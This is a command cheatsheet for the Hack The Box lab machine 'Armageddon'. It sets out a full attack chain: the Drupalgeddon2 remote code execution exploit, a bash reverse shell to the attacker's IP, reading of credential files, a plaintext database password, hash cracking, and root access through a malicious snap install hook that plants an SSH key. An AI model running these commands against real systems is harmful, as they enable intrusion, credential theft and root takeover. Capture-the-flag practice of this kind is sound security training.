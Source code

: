 # HTB: Armageddon — Command Cheatsheet

## 📉 Box Info
- **Name:** Armageddon
- **IP:** 10.10.10.233
- **OS:** Linux (CentOS)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.233
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.233
```

---

## 🏠 Web Enum (Drupal 7.56)
```bash
curl http://10.10.10.233/robots.txt
curl http://10.10.10.233/CHANGELOG.txt | head
```

---

## ⚡ Exploitation - Drupalgeddon2 (RCE)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
./drupalgeddon2.rb http://10.10.10.233
```

### 🤖 Webshell Reverse Shell
```bash
# Listener
nc -lnvp 443

# Exploit (via webshell)
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.233/shell.php
```

---

## 🔍 Enumeration (as apache)
```bash
ls -l /home
cat /etc/passwd | grep bash
cat /var/www/html/sites/default/settings.php
```

### 📂 DB Access
```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
select * from users;
```

---

## 🔐 Crack Hash
```bash
echo "$S$DgL2gj..." > drupal.hash
hashcat -m 7900 drupal.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔒 SSH as brucetherealadmin
```bash
ssh brucetherealadmin@10.10.10.233
# password: booboo
```

---

## ⬆️ Privilege Escalation via snap
### ☑ Check sudo perms
```bash
sudo -l
```

### 🚀 Build Malicious Snap (on your own VM)
```bash
snapcraft init
mkdir -p snap/hooks
cat > snap/hooks/install << EOF
#!/bin/bash
mkdir -p /root/.ssh
echo "<your-public-key>" > /root/.ssh/authorized_keys
EOF
chmod +x snap/hooks/install

cat > snap/snapcraft.yaml << EOF
name: armageddon
version: '0.1'
summary: Exploit Snap
confinement: devmode
grade: devel
parts:
  dummy:
    plugin: nil
EOF

snapcraft
```

### 🛫 Transfer + Install on Target
```bash
# Host
sudo python3 -m http.server 80

# Target (as brucetherealadmin)
curl http://10.10.14.7/armageddon_0.1_amd64.snap -o shell.snap
sudo snap install shell.snap --devmode --dangerous
```

---

## ✅ Root Access (via SSH key installed)
```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.10.233
cat /root/root.txt
```

---

## 📋 Notes & References
- Drupal RCE: [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
- Snap Exploitation: GTFOBins + Custom install hook
- DB Creds from: `/var/www/html/sites/default/settings.php`